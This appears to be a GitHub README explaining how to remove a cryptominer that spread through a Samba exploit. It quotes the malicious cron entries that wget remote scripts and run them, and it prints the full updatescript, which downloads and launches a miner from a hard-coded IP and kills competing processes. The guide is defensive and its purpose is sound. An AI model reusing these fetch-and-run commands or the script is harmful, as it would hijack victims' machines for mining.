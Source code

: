 smbd-cpuminer-infection-fix
-------------

A Samba exploit turned Linux into a goldmine. Those infected by the malware would have their systems mining cryptocurrency 24/7, causing their cpu to maintain a 100% usage.

> **Note:** After removing the infection, your system may still be vulnerable

### Removing the infection

Navigate to the cronjob file containing daily get requests for retrieving the updatescript:
```
// Login as root
sudo -i
// Navigate to your cronjobs
cd /var/spool/cron/crontabs
// Edit root file
nano root
```
Remove or comment out the following lines:
```
@daily wget -q http://update.sdgndsfajfsdf.info/upd -O /tmp/updatescript;sh /tmp/updatescript;rm -rf /tmp/updatescript$

@daily wget -q http://update.sdgsafdsf.pw/upd2 -O /tmp/updatescript2;sh /tmp/updatescript2;rm -rf /tmp/updatescript2 >$

@daily wget -q http://update.omfg.pw/upd3 -O /tmp/updatescript3;sh /tmp/updatescript3;rm -rf /tmp/updatescript3 > /dev$
```
Navigate to your temp folder:
```
// Navigate to your temp folder
cd /tmp
```
Here you will find the cpuminer files, and the malicious updatescript, which was being executed and updated by the cronjob:
```
...
cpuminer
cpuminer.o
updatescript
...
```
Remove these files and reboot your system to start the processes that were shutdown by the updatescript.

### The malware updatescript
```
#!/bin/sh
wget http://176.9.48.167/cpuminer -O /tmp/cpuminer
chmod +x /tmp/cpuminer
#killall cpuminer
/tmp/cpuminer&
ps -ef|grep .sh|grep -v irq|grep -v grep|cut -c 9-15|xargs kill -9
pkill -f sleep
pkill -f /tmp/m
pkill -f JnKihGjn
pkill -f irqba2anc1
pkill -f irqba5xnc1
pkill -f conns
pkill -f irqbalance
pkill -f crypto-pool
pkill -f minexmr
pkill -f XJnRj
pkill -f NXLAi
pkill -f BI5zj
pkill -f askdljlqw
pkill -f minerd
pkill -f minergate
pkill -f Guard.sh
pkill -f ysaydh
pkill -f bonns
pkill -f donns
pkill -f kxjd
pkill -f 108.61.186.224
pkill -f Duck.sh
pkill -f bonn.sh
pkill -f conn.sh
pkill -f kworker34
pkill -f kw.sh
pkill -f pro.sh
pkill -f polkitd
pkill -f acpid
ps -ef|grep 'irq.sh' |grep -v grep |cut -c 9-15 |xargs kill -9;
ps -ef|grep 'irqbalan' |grep -v grep |cut -c 9-15 |xargs kill -9;
ls -A1 /tmp/*.so | sed 's/\/tmp\///g' | awk '{print "killall "$1}' >>/tmp/out;sh /tmp/out;rm -rf /tmp/out
m=`pidof m`
kill -9 $m

exit
```